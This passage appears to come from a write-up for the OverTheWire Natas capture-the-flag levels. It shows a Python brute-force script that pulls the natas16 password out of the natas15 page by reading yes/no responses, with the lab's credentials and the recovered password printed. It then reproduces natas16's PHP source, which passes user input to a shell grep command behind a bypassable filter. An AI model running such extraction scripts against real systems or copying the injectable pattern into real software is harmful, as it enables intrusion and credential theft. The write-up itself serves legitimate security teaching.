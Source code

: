 ```python
    response = requests.get(url+load,auth=requests.auth.HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'))
    if ("This user exists." in response.text):
        leng = i
        print("Length :",leng)
        break
Length= leng
password=""
for i in range(1,leng+1):
    for j in range(0,128):
        load = pass1.format(i,j)
        response = requests.get(url+load,auth=requests.auth.HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'))
        if ("This user exists." in response.text):
            password += chr(j)
            print("Characters found :",i,"Password :",password)
            break;
print("Password :",password)
```

This code gave me the password

password : **WaIHEacj63wnNIBROHeqi3p9t0m5nhmh**

### <a id="16">natas16</a>

Source code : 

```php+HTML
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
```